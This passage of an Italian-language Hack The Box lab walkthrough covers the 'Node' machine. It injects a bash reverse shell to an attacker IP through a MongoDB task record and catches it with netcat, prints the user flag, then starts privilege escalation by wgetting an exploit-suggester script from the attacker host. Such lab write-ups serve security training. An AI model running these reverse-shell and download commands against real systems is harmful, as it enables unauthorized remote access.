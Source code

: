 La raccolta delle task non contiene alcun documento. Non ci resta che aggiungerne uno che invia una shell inversa alla nostra macchina d'attacco.

```bash
> db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.14.9/443 0>&1'"})
WriteResult({ "nInserted" : 1 })
```

`db.tasks.insert({......})` inserisce un task all'interno in questo caso abbiamo inserito un shell

Nella nostra macchina ci mettiamo in ascolto con nc sulla porta inserita nella shell

```bash
┌──(root㉿kali)-[/home/kali/htb/node]
└─# nc -lnvp 443
listening on [any] 443 ...
```

e dopo 30 secondi abbiamo la nostra shell come utente tom

```bash
┌──(root㉿kali)-[/home/kali/htb/node]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.58] 56880
bash: cannot set terminal process group (1255): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@node:/$
```

e finalmente possiamo prenderci la nostra user flag

```bash
tom@node:~$ cat user.txt
9f66542473e1b1023e412c34c32e68ab
```

# PRIVESC

## CVE-2017-16695

per prima cosa importiamo linux-exploit-suggester-2.pl

```bash
tom@node:~$ cd /tmp/
tom@node:/tmp$ wget http://10.10.14.9:8000/linux-exploit-suggester-2.pl
--2023-07-07 13:46:04--  http://10.10.14.9:8000/linux-exploit-suggester-2.pl
Connecting to 10.10.14.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24292 (24K) [text/x-perl]
Saving to: ‘linux-exploit-suggester-2.pl’

linux-exploit-sugge 100%[===================>]  23.72K  --.-KB/s    in 0.06s

2023-07-07 13:46:05 (391 KB/s) - ‘linux-exploit-suggester-2.pl’ saved [24292/24292]

tom@node:/tmp$ ls
LinEnum.sh
linux-exploit-suggester-2.pl
mongodb-27017.sock
root
root-decoded
systemd-private-23535b5ea8d74134a92ae4e95523326e-systemd-timesyncd.service-0Imbfe
vmware-root
```
